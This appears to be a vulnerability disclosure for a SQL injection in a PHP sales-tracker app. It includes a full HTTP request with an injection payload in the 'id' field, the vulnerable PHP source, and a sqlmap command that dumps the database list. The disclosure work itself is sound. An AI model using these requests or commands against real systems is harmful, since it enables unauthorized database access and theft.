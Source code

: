 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system

The sql injection url: http://127.0.0.1/php-sts/classes/Master.php?f=save_product Vulnerability trigger parameter: id(post parameter)

The http message is 

```
POST /php-sts/classes/Master.php?f=save_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 620
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbc4qHZLzr0zBDjL
Origin: http://172.31.171.96
Referer: http://172.31.171.96/php-sts/admin/?page=products
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _identity-backend=1416da550bcea012a11350a0ee7d79cf245e88d2bb9d4d2aa1f1074044ab7943a%3A2%3A%7Bi%3A0%3Bs%3A17%3A%22_identity-backend%22%3Bi%3A1%3Bs%3A46%3A%22%5B1%2C%22z6lrwixmdNF4VqtkXw6z-3vMZdSdngm2%22%2C2592000%5D%22%3B%7D; PHPSESSID=qj7s632jgajmvubq5d9g49fnnn
Connection: close

------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="id"

1 and 1=1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="code"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="name"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="description"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="price"

123
------WebKitFormBoundaryAbc4qHZLzr0zBDjL
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryAbc4qHZLzr0zBDjL--

```

sourcecode:

```php
	function save_product(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k =>$v){
			if(!in_array($k,array('id'))){
				if(!empty($data)) $data .=",";
				$v = htmlspecialchars($this->conn->real_escape_string($v));
				$data .= " `{$k}`='{$v}' ";
			}
		}
		$check = $this->conn->query("SELECT * FROM `product_list` where `code` = '{$code}' and delete_flag = 0 ".(!empty($id) ? " and id != {$id} " : "")." ")->num_rows;
		if($this->capture_err())
			return $this->capture_err();
		if($check > 0){
			$resp['status'] = 'failed';
			$resp['msg'] = "Product Code already exists. Code must be unique";
			return json_encode($resp);
			exit;
		}
		if(empty($id)){
			$sql = "INSERT INTO `product_list` set {$data} ";
		}else{
			$sql = "UPDATE `product_list` set {$data} where id = '{$id}' ";
		}
			$save = $this->conn->query($sql);
		if($save){
			$cid = !empty($id) ? $id : $this->conn->insert_id;
			$resp['cid'] = $cid;
			$resp['status'] = 'success';
			if(empty($id))
				$resp['msg'] = "New Product successfully saved.";
			else
				$resp['msg'] = " Product successfully updated.";
		}else{
			$resp['status'] = 'failed';
			$resp['err'] = $this->conn->error."[{$sql}]";
		}
		// if($resp['status'] == 'success')
		// 	$this->settings->set_flashdata('success',$resp['msg']);
			return json_encode($resp);
	}
```

![sourcecode](https://github.com/paiqian/php-sts-vultest/blob/main/static/image-20230310202421828.png)

sqlmap command: sqlmap -r /mnt/d/web_temp/sqlattack.txt -pid --batch --dbs

![image-20230310202856402](D:\网安学习\tryCVE\sts-1.assets\image-20230310202856402.png)

![image-20230310202937055](D:\网安学习\tryCVE\sts-1.assets\image-20230310202937055.png)
